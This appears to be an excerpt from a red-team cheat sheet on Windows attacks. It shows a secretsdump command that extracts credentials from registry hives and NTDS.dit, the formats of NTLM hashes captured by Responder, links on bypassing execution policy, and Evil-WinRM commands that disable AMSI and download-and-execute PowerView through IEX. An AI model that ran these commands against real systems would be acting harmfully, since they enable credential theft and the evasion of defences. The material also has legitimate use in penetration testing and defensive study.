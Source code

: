 Parse secrets:

```
$ secretsdump.py -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL
```




## NTLM

### Responder

`[SMB] NTLMv1 Hash` and `[SMB] NTLMv1-SSP Hash` capture structure:

```
<Username>:<Domain>:<LMv1_Response>:<NTv1_Response>:<Server_Challenge>
```

`[SMB] NTLMv2-SSP Hash` capture structure:

```
<Username>:<Domain>:<Server_Challenge>:<LMv2_Response>:<NTv2_Response>
```

* [github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149](https://github.com/lgandx/Responder/blob/eb449bb061a8eb3944b96b157de73dea444ec46b/servers/SMB.py#L149)
* [ru.wikipedia.org/wiki/NTLMv2#NTLMv2](https://ru.wikipedia.org/wiki/NTLMv2#NTLMv2)
* [www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/](https://www.ivoidwarranties.tech/posts/pentesting-tuts/responder/cheatsheet/)
* Andrei Miroshnikov. Windows Security Monitoring: Scenarios and Patterns, Part III, pp. 330-333.




## ExecutionPolicy Bypass

* [blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)
* [bestestredteam.com/2019/01/27/powershell-execution-policy-bypass/](https://bestestredteam.com/2019/01/27/powershell-execution-policy-bypass/)




## AMSI Bypass



### Evil-WinRM + IEX

```
*Evil-WinRM* PS > menu
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```




[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)